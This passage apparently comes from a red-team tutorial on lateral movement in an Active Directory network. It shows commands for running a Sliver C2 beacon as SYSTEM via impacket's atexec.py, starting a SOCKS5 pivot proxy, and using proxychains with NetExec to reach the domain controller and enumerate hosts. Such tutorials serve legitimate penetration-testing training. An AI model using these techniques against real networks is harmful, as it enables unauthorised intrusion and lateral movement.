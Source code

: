 But we're lazy, so we can actually just execute beacon from Linux using [`atexec.py`](https://tools.thehacker.recipes/impacket/examples/atexec.py) which runs a command using the task scheduler remotely (which runs at the SYSTEM context).

```bash
atexec.py [domain_name]/[username]:[password]@[workstation_ip] [command]
```

![5](https://i.gyazo.com/781c1fac5e026f519406b8d295761ba3.png)

And now we have a SYSTEM beacon on the workstation.

![6](https://i.gyazo.com/39f0009a5692943ff904d553b5618d6e.png)

In order to proxy all our commands through the workstation, we'll need to set up an inband socks proxy.

```bash
sliver> socks5 start
```

> Sliver's inband socks proxy tends to be unstable on some protocols, and listens on the default port of **1081** on the operator's machine; remember to modify your `/etc/proxychains4.conf` file to reflect this.
{: .prompt-info }

### Resolving the Domain Controller

Now, we can verify that we can interact with the domain controller through `proxychains`

```bash
proxychains nxc smb [IP/FQDN] -u [username] -p [password]
```

![7](https://i.gyazo.com/91fd5366945f3240229fbbce459736d3.png)

### Resolving Other Hosts

There are a couple ways to resolve the other hosts in the network, the smart and methodical way would be to identify a list of workstations and servers in the network; then resolve them with `dig`.

The lazy way would be to resolve them by `nxc smb` sweeping the network, I'll show both methods here.

#### Methodical Way (ew)

```bash
proxychains nxc ldap [IP/FQDN] -u [username] -p [password] -M get-network -o ONLY_HOSTS=true
```

![8](https://i.gyazo.com/b7629cf5799f33addabd7df0b0d89b11.png)

This gives you a list of all the hosts in the network

![9](https://i.gyazo.com/4bdcca0d9e982b83438108e97d7c4b9f.png)

Which you can then resolve with this command, but this takes forever so I wouldn't personally do it this way :)
